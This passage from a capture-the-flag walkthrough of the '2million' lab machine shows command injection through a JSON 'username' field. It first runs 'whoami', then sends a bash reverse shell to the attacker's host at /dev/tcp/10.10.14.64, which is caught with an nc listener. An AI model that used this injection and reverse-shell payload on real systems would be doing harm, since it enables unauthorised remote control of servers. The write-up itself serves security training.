 ```

{
"username": "asd; whoami #" }
```


And this time it works!


```
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 27 Oct 2023 15:47:24 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 9

www-data
```



#### Getting www-data shell


```
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Content-Type: application/json
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=m1m3o51qc1l8uigsqgr6df6s9f
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Content-Length: 65

{
"username": "asd; bash -c 'bash -i >& /dev/tcp/10.10.14.64/1313 0>&1' #" }
```


and I have started a listener on my box with:
 `nc -lvnp 1313`


```
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1313
Ncat: Listening on 0.0.0.0:1313
Ncat: Connection from 10.129.229.66.
Ncat: Connection from 10.129.229.66:54120.
bash: cannot set terminal process group (1098): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$ ls
ls
Database.php
Router.php
VPN
assets
controllers
css
```